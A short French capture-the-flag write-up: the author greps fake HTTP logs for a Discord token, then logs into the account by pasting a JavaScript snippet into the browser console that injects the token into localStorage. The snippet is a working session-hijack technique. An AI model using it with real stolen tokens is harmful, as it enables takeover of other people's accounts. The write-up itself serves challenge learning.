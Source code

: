 # Write up - toktok didi
### présentation
On télécharge le [zip fourni](https://limewire.com/d/vtYyd#LK6n71NgMM). [lien obsolète dans quelques jours]
Il contient `script.py`, qui dévoile comment ont été généré les faux fichiers de log.
Le répertoire log contient de nombreux fichier log de requête HTTP.
### trouver le token
L'énoncé nous demande de trouver un token discord.
Dans _log/_, On tente donc la commande `grep -ri "token"` 
```bash
access_log_20241123-022610.log:36.165.234.1 - - [23/Nov/2024:03:19:55 +0200] "GET /api/v9/channels/987654321/messages?token=TOKEN&limit=50 HTTP/1.0" 200 2341 "https://discord.com/channels/123456789/987654321" "Mozilla/5.0 (Android 7.1.2; Mobile; rv:54.0) Gecko/54.0 Firefox/54.0"
```
Il n'y a donc même pas de faux token discord ou autres que discord, il était donc très facile à trouver.
### connection au compte discord
Se connecter à un compte discord non-bot à partir son token enfreint les CGU discord, car ça 
C'est uniquement pour le challenge et pour des raisons pédagogique qu'on le fait ici.
On se connecte sur le navigateur](https://discord.com/login)
On injecte ce code javascript dans la console du navigateur (Pour moi, `CTRL + SHIFT + K`).

```javascript
setInterval(() => {
  document.body.appendChild(document.createElement`iframe`).contentWindow.localStorage.token = `"TOKEN"`;
}, 50);

setTimeout(() => {
  location.reload();
}, 100);
```
On est connecté dans le compte discord.
On accède à la description du profil, qui contient le flag. 

